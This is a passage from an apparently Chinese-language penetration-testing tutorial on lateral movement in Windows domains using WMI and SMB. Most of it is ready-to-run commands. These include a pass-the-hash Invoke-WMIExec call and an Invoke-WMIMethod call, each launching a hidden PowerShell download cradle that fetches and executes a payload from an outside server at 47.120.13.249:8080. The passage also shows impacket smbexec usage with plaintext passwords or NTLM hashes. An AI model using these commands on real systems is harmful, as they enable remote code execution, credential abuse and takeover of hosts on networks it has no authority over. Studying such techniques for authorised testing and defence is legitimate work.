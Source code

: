 ### 本地执行

#### 1、导入脚本

```
powershell-import powershell/Invoke-WMIExec.ps1
```

#### 2、运行上线命令

```
powershell Invoke-WMIExec -Target 192.168.70.16 -Domain hack -Username administrator -Hash 579da618cfbfa85247acf1f800a280a4 -Command "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))" -verbose
```

## Invoke-WMIMethod.ps1

该模块为Powershell内置模块，以下为示例，可以自由组合命令进行测试。

```
$User                  #目标系统用户名
$Password              #目标系统密码
$Cred                  #账号密码整合，导入Credential
Invoke- WMIMethod      #远程运行指定程序
#####----------------------------#####

$User ="administrator" 
$Password= ConvertTo-SecureString -String “admin@123" -AsPlainText -Force 
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User ,$Password 
Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))" -ComputerName "192.168.70.16" -Credential $Cred
```

# smb远程执行命令横向移动

## SMB介绍

SMB全称是Server Message Block翻译过来是服务器信息块，它也是一种客户端到服务器的通信协议。除此
之外，SMB协议也被称为请求-回复协议。客户端与服务器建立连接后,客户端可以向服务器发送SMB命令允许用
户访问共享、打开、读取或者是写入文件。

**利用条件:开启了445端口**

## smbexec使用

smbexec为**impacket**工具中的工具,操作简单，容易被杀，使用时无需先进行IPC连接

```
明文传递命令:
smbexec hack.com/administrator:admin@123@192.168.70.16

hash传递:
smbexec -hashes :$HASH$ ./admin@192.168.70.16
smbbexec -hashes :$HASH$ domain/admin@192.168.70.16
```
